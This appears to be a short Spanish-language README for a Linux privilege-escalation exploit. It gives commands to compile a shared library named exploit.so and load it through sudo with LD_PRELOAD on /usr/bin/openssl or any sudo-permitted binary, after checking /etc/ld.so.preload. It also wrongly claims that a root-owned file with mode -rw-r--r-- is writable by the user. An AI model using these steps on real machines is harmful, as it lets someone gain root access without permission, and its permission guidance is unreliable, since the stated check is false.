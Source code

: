 # Como usar
- Primero hay que revisar que el usuario que se ejecuta el programa tenga permisos de escritura en `/etc/ld.so.preload`, para ello se puede ejecutar el siguiente comando:
```
ls -la /etc/ld.so.preload
```
- Si el output es algo como lo siguiente: `-rw-r--r-- 1 root root 0 mar  1  2021 /etc/ld.so.preload`, entonces el usuario tiene permisos de escritura en `/etc/ld.so.preload` y puede ejecutar el programa.

## Compilar
- `gcc -shared -fPIC -o exploit.so exploit.c`

## Ejecutar
- `sudo LD_PRELOAD=$PWD/exploit.so /usr/bin/openssl`
- O cualquier binario que te deje ejecutar con sudo.